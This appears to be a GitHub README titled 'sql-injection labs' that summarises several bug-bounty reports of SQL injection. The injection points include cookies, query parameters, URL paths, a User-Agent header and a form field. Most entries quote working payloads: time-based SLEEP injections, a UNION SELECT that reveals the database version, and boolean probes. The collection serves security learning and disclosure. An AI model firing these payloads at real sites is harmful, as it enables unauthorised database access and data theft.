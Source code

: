 
##  sql-injection labs 

![sql](https://github.com/user-attachments/assets/2a6f7be0-9e42-4dcc-a1f7-c83e7adf9aec)

## report #761304
It seams one of the parameters in the cookies is vulnerable to SQL injection. Below requests has the lang parameter in cookies. If you inject one quote mark like '. You get SQL error with the syntax. By injecting a second you have the error removed.

## report #1042746
 SQLI Injection Time Based on The parameter $_GET['acctid'] is vulnerable. <br>
 GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1

## report #1044716
SQL Injection in request is used to create sales lead with the data the sales lead id is produced <br>
PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1


## report #1046084
SQL Injection Union Based on /commenthistory/$YourSiteId <br>
you can inject by this payload <br>
    /commenthistory/$YourSiteId%20union%20select%201,2,@@VERSION%23

## report #297478
 SQL injection vulnerability in the website that affects the endpoint can be exploited via the User-Agent HTTP header. <br>
 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


## report #2051931
The server does not perform sanitization on user input, allowing an attacker to inject arbitrary SQL commands into a query. <br>
/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--

## report #300176
this website is vulnerable to SQL injection in two cookies with different techniques.
1 with time based and the other is basic sql injection

## report #419017
the site is vulnerable to SQL injection in the maxlength attribute of the SSN input field which we can add sql injection payload in it
